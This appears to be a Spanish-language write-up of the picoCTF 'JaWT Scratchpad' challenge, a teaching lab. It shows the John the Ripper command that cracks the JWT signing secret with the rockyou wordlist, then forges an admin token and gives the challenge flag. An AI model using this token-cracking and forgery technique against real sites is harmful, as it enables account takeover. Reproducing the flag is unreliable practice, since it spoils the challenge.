 ## JaWT Scratchpad 

### Objetivos 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

### Pistas
1. What is that cookie?
2. Have you heard of JWT?

### Solución 

- hacemos login con nuestro nombre
- extraemos el token generado de la cookie, con el complemento del navegador
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2F1bCJ9.s2yNYA4r8kHDSdf8Rolh2TSltGEQhDRG2cnkha_EBjY
```

- creamos un archivo y pegamos el token dentro
``` bash
┌──(kali㉿kali)-[~]
└─$ touch mijwt

┌──(kali㉿kali)-[~]
└─$ nano mijwt 

```

ejecutamos el siguiente comando de john en el archivo que contiene el token para obtener la contraseña
```
┌──(kali㉿kali)-[~]
└─$ john mijwt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2023-10-03 23:26) 0.3134g/s 2318Kp/s 2318Kc/s 2318KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- En caso de darnos error de Codificación, extraemos el archivo rockyou.txt.gz
```
(kali㉿kali)-[~]
└─$ sudo gzip -d  /usr/share/wordlists/rockyou.txt.gz
```

- obtenemos la contraseña del tocken: 'ilovepico'

- en https://jwt.io/ pegamos el token.

- en la parte de PAYLOAD:DATA 
	sustituimos el usuario por admin

- en la parte de VERIFY SIGNATURE 
	colocamos la contraseña del token 'ilovepico'

- copiamos el nuevo token y lo pegamos en la cookie.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

- recargamos la pagina y obtenemos la bandera del nivel

picoCTF{jawt_was_just_what_you_thought_44c752f5}

### Notas adicionales:
- John: john es una herramienta para hackear contraseñas por fuerza bruta.
- rockyou.txt: el archivo rockyou de john contiene una gran cantidad de contraseñas genéricas.


### Referencias:
jwt: https://jwt.io/
json: https://www.json.org/json-es.html
JSON Web Tokens: https://jwt.io/